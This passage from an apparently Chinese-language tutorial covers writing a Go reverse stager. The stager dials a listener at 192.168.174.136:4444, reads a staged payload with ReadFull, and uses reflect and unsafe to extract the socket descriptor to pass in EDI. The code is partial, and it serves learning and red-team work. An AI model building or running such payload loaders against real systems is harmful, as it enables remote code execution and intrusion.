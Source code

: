 ```go
    return errors.New("Number of payload bytes does not match payload size! ")
}
```

这里有几点我们需要注意的地方，第一是读取stages长度是需要使用 binary 库把它转化为 int32，你可以理解为 python 中的 struct 库，第二个是我们惯用的从 socket 连接读取数据使用的是 Read，但是并不能读全，和网络有关系，需要使用 ReadFull 或者 ReadAtLeast 进行读取。读取到 stages 后，我们可以进行下一步操作了。

### socket fd 放入 edi

```go
conn := socket.(*net.TCPConn)
fd := reflect.ValueOf(*conn).FieldByName("fd")
handle := reflect.Indirect(fd).FieldByName("pfd").FieldByName("Sysfd")
socketFd := *(*uint32)(unsafe.Pointer(handle.UnsafeAddr()))

buff := make([]byte, 4)
binary.LittleEndian.PutUint32(buff, socketFd)
return buff
```

这部分代码就是我上面所说的难点了，首先 `socket, err := net.Dial("tcp", "192.168.174.136:4444")` 返回的是一个接口 `type Conn interface` ，我们需要找到他的真实类型，继续往里面跟我们会发现他的真实类型是 `*net.TCPConn`，为什么要做这一步？

我们先看看这个结构体

```go
// TCPConn is an implementation of the Conn interface for TCP network
// connections.
type TCPConn struct {
	conn
}

type conn struct {
	fd *netFD
}
```

我们其实需要的是里面的文件描述符，我们再往里跟一下

```go
// Network file descriptor.
type netFD struct {
	pfd poll.FD

	// immutable until Close
	family      int
	sotype      int
	isConnected bool // handshake completed or use of association with peer
	net         string
	laddr       Addr
	raddr       Addr
}

// poll.FD
// FD is a file descriptor. The net and os packages embed this type in
// a larger type representing a network connection or OS file.
type FD struct {
	// Lock sysfd and serialize access to Read and Write methods.
	fdmu fdMutex

	// System file descriptor. Immutable until Close.
	Sysfd syscall.Handle

	// Read operation.
	rop operation
	// Write operation.
	wop operation
```